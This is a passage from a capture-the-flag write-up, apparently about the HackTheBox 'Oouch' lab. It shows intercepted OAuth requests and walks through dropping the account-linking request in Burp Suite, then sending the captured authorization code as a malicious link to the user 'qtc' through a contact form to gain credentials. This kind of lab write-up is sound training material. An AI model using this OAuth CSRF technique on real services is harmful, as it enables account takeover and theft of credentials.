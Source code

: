 ```http
Upgrade-Insecure-Requests: 1



csrfmiddlewaretoken=v9wy7hWoUCz9Z5GQi5XBkH0zo21kut2aGlNFwNPiNTvAtHvs8N7iq6XU1acH3Y1P&redirect_uri=http%3A%2F%2Fconsumer.oouch.htb%3A5000%2Foauth%2Fconnect%2Ftoken&scope=read&client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&state=&response_type=code&allow=Authorize
```

We can forward this request and retrieve the next:

```http
GET /oauth/connect/token?code=IhKT0Gc97DNDoVQp2Urhfun5pcl4Vj HTTP/1.1
Host: consumer.oouch.htb:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://authorization.oouch.htb:8000/
Connection: close
Cookie: session=.eJwlT8tqAzEM_BXjcyh-y85X9F5CkGQpuzTNlvXmFPLvNRQEwyDNQy971TuORYY9f72sOSbYHxkDb2JP9vMuOMTct5tZH-bYDDLPpTmWdZjfefNhL-_LaZrsMhZ7PvanTLZ2e7Y5S_elq3poEVJTqNqEci0uFQzJKTM4yqFw1NKRcoy--Uqt-hQlEdQguceK2TUlUc2F_RxyiYtn0OnRa0SHoUIsBAqJZ1ymVrLSrM9j1-uxfctj9kFIHiJqIS6BqwhqyJ1gilxJjBywQsp-6p5D9v8ngn3_AcFgVkE.ZA1w3A.rxmnxwIcngbjUG5bfhtMo3YL0G0
Upgrade-Insecure-Requests: 1

```

This is request that links accounts together. **We need to drop this using Burpsuite and save the code sent.** Afterwards, we can create a malicious link for `qtc` to click:

```
http://consumer.oouch.htb:5000/oauth/connect/token?code=IhKT0Gc97DNDoVQp2Urhfun5pcl4Vj
```

&#x20;Send this in the Contact Form and wait for a little bit. Then, we can attempt to use OAuth by accessing `/oauth/login` on the consumer server. If done correctly, this is what we would see in the Documents section:

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Great! Now we have credentials to access some other stuff. There's an SSH key somewhere on this  website as well.
